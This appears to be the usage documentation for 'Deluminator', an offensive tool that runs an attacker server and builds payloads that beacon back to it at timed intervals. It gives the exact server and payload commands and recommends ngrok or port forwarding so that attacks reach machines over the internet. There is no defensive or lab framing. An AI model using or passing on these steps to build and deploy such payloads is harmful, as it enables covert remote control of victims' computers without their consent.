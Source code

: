 # How to use?

After successfully installing the package, open the terminal and utilize the provided arguments to create the desired payload and start the server.

## Starting the server

You need to provide 3 arguments:

*   `server`: This argument indicates that you want to start the server.
*   `--host`: This argument specifies the host address on which the server should listen. 
*   `--port`: This argument specifies the port address on which the server will be listening for incoming connections.

::: tip 
It is recommended to use ngrok or port forwarding techniques to enable attacks from machines over the internet.
:::

**Example Usage:**

To start the Deluminator server on the local machine with host address `127.0.0.1` and port `3333`, you would use the following command:
```
Deluminator server --host 127.0.0.1 --port 3333

```

Please make sure to modify the host and port values according to your specific setup to ensure proper functionality of the Deluminator attacker server.

## Building payload

To create a Deluminator payload, you need to provide the following 5 arguments:

*   `payload`: This argument indicates that you want to build a payload.
*   `--name`: This argument specifies the name for the payload.
*   `--host`: This argument specifies the host address to which the payload will attempt to connect.
*   `--port`: This argument specifies the port address to which the payload will attempt to connect.
*   `--time`: This argument specifies the interval (in minutes) at which the payload will attempt to connect to the server.

**Example Usage:**

To create a Deluminator payload named "light" that will attempt to connect to the host address `127.0.0.1` on port `3333`, with a connection attempt interval of every 1 minute, you would use the following command:

```
Deluminator payload --name light --host 127.0.0.1 --port 3333 --time 1
```
Please ensure that you modify the host and port values according to your specific setup to ensure proper functionality and successful communication between the payload and the server.
